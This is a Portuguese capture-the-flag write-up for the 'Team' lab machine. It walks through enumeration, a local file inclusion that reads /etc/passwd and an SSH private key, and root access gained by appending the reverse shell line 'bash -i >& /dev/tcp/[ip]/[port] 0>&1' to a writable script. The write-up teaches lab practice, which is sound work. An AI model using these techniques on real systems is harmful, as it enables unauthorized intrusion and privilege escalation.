# _**Team CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos alguns serviços como SSH, FTP e uma página web  
Vamos visitar a página web primeiro, já que não temos login anonimo via FTP  
A página _default_ do Apache2  
Vamos tentar um _brute force_ de diretórios com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Parece que nosso scan não retornou algo de útil  
Vamos continuar  
Um outro scan com ```/Web-Servers/Apache.txt``` também não houve retornos úteis  
Investigando o código da página, encontramos a seguinte mensagem:  



Vamos adicionar o que se pede para _/etc/hosts_  
Após adicionar, acessamos _http://team.thm_ e temos uma página web  
Vamos novamente realizar um scan com <mark>Gobuster</mark>  


Temos diferentes resultados agora!  
Vamos começar a investigar estes novos diretórios  
Em _robots.txt_, temos um nome; **dale**   
Uma tentativa de _brute force_ no serviço SSH com <mark>Hydra</mark> e _rockyou.txt_ foi feito, mas nenhum sucesso  
Alguns dos diretórios descobertos estão inacessíveis  
Poderiamos investigar as imagens contidas neste website, mas parece que não levará a nada  

Nossa alternativa é tentar enumerar subdomínios dentro deste domínio  
Para isso, vamos utilizar a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -w ../seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://[ip_address]:80 -H "Host: FUZZ.team.thm" -fs 0
> ```


Após a execução, _dev_ chamou a atenção  
Vamos adicionar no nosso arquivo junto de _team.thm_  
Acessando _dev.team.thm_, temos o resultado  



Clicando no link parece nos levar para uma página que inclui o arquivo _teamshare.php_  



Seguindo a dica dada para a primeira flag, vamos digitar na barra de endereço, após _script.php?page=_, /etc/hosts e verificar o retorno  



Temos retorno!  
Podemos tentar outros diretórios como: <mark>/etc/passwd</mark>  
Após, verificamos os nomes de usuário, e temos **dale**  
Por padrão, temos que o conteúdo de _user.txt_ está localizado em um diretório _/home/[username]/user.txt_  
Tentando para **dale**, temos retorno da primeira flag!  



## _**Ganhando acesso**_
Parece que podemos acessar diferentes diretórios  
Vamos tentar enumerar com a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -w ../seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u 'http://dev.team.thm/script.php?page=FUZZ' -mc 200
> ```


Este arquivo parece ser o de configuração do serviço SSH  
Vamos tentar acessar pelo site  
Além das configurações, temos uma chave SSH para login contida no arquivo  
Vamos copiar ela para nossa máquina e dar as permissões necessárias e tentar realizar login nos dois usuários que encontramos  



Executando o comando ```sudo -l```, verificamos o arquivo encontrado é executado sem a necessidade de senha  
Além disso, podemos digitar ```bash``` para ganhar privilégios de **gyle**  



Após algum tempo enumerando o usuário, o comando abaixo parece ter nos revelado um arquivo interessante
> ```bash
> find / -writable -type f -name "*.sh" 2>/dev/null
> ```
Este arquivo possui permissões de ```admin```, dos quais **gyle** também tem  
Vamos tentar editar este arquivo com ```nano```
Podemos incluir o seguinte trecho: <mark>bash -i >& /dev/tcp/[ip_address]/[port] 0>&1</mark>  
Fazendo as alterações necessárias, vamos usar ```nc``` para obter um shell  
Após aguardar um tempo, temos _root_  



Basta realizar um ```cat``` em _/root/root.txt_ e temos nossa flag!

